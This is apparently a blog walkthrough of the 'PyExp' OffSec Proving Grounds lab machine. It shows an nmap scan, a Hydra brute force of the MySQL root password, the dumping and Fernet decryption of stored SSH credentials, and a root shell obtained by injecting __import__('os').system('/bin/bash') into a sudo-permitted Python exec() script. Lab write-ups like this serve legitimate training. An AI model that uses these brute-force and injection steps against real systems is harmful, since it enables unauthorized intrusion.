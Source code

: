 ```yaml
---
layout: post
title:  "PyExp Writeup"
date:   2022-07-16 08:11:30 +0530
---
```


# Walkthrough of Pyexp

Hello everyone, in this post I'm sharing `offsec` play grounds `warm-up` machine called `PyExp`. Which teachs about  wordlist attacks, hash cracking and privilege escalation with some  

## Nmap

First thing first that we have to find out opened ports of this target. So, I ran a full port scan against target ip here.

`nmap -sC -sV -p- <target-ip>`


here `-p-` indicates that i'm running a full port scan against this. Also `-sV` for service versions and `-sC` for default script. you can find more information using this command `man nmap`. After few minitues I got my result.

```
Nmap scan report for 192.168.97.118
Host is up (0.24s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 41
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, FoundRows, ODBCClient, ConnectWithDatabase, Speaks41ProtocolNew, SupportsCompression, InteractiveClient, Support41Auth, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: Rp\[43B3vy})Q>!+Q7^U
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

Scan shows that it has only few ports open `ssh` and `mysql`.

## Attack

Now we can do a wordlist attack to extract `root` credentials of mysql service.So, we can use different toolslike `hydra`, `medusa`. Here I'm going to use Hydra to attack the mysql service.


I used `rockyou.txt` to attck. If you haven't the password list `rockyou.txt`. Here is the link to [download](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

After the download you can simply run this command.

`hydra -l root -P /path/to/wordlist/rockyou.txt <target-ip> mysql`

Here `-l` for username, `-P` for mention the wordlist you are going to use.

```
[DATA] attacking mysql://192.168.219.118:3306/
[3306][mysql] host: 192.168.219.118   login: root   password: prettywoman
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-16 10:34:00
```

After the attack we can ge the credentials `root:prettywoman`. Using these credentials we can connect to mysql host and can do some further enumeration...

Using this command we can connect.

`mysql -u root -h <target-ip> -p`

Give the password `prettywoman` correctly and login to the mysql. 

```
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7860
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

yeaaaaaaaahhhhhhh! We logged in. Now we can see that there are few databases

paste following commands on mysql session.

```
show dtabases;
use data;
show tables;
select * from fernet;
```
`cred:gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=`

`key:UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=`



after the last command we can get a fernet encrypted string and the key. So, to decrypt it I wrote very simple `python script`.

```
#!/usr/bin/python3
from cryptography.fernet import Fernet
key = b"UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0="

f = Fernet(key)
cred = b"gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys="
  
# decrypting the ciphertext
m = f.decrypt(cred)
print(m)
```

We got username and password from the decryption.

```
Username:lucy
Password:wJ9`"Lemdv9[FEw-
```

Now we can ssh into the target.

`ssh lucy@<target-ip> -p 1337 `

Here mention the port 1337 because in this host ssh port is 1337.

## Privilege escalation

```
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

`sudo -l` gives us a valuable info here that we can execute a script with root permissions. So, let's see what the script is.


```
uinput = raw_input('how are you?')
exec(uinput)
```
It is executing what I'm write there. So, that is vulnerable to run commands with root privileges.

For an example
```
lucy@pyexp:~$ id
uid=1000(lucy) gid=1000(lucy) groups=1000(lucy),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py 
how are you?__import__('os').system('id');
uid=0(root) gid=0(root) groups=0(root)
```

## Time to be root

```
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py 
how are you?__import__('os').system('/bin/bash');
root@pyexp:/home/lucy# 
root@pyexp:/home/lucy# 
root@pyexp:/home/lucy# id
```

Enjoy the flags Yourself!
